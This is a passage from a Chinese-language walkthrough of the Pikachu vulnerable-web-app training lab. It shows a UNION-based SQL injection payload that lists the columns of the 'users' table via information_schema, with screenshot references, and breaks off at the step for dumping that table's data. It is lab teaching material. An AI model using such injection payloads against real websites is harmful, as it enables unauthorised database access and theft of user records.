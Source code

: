 **7、查看指定pikachu数据库下表名为users的所有列信息**

```sql
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where  table_schema='pikachu'  and table_name='users'--+
```

![image-20230814214237328](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814214237328.png)

查看数据库验证是否正确

![image-20230814214350149](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814214350149.png)

**8、查询pikachu库下的users表的数据**
